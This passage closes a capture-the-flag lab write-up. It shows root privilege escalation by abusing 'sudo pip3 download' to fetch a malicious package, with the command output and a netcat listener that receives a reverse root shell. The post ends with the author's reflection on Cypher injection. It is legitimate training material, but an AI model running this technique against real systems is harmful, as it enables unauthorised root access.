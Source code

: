 Now, executing the sudo command:
```
john@only4you:~$ sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
     - 2.8 kB 10.1 MB/s
  Saved ./this_is_fine_wuzzi-0.0.1.tar.gz
Successfully downloaded this-is-fine-wuzzi
```

Meanwhile on my listener:
```
$ nc -nvlp 8888           
listening on [any] 8888 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.210] 34386
root@only4you:/tmp/pip-req-build-3yl3w6ls# whoami
whoami
root
root@only4you:/tmp/pip-req-build-3yl3w6ls#
```

The exploit worked, and now we have full access as root.

## Reflection
This box felt particularly well-earned as the Cypher Injection segment ended up being a nightmare. An entirely unfamiliar database language, coupled with every injection attempt respond with `error 500`. It turned into a great learning experience, with a lot of skills/techniques challenged throughout the box. As usual, I found Privilege escalation, the abuse of `sudo pip3 download`, to be a really cool highlight of a method I had not known.
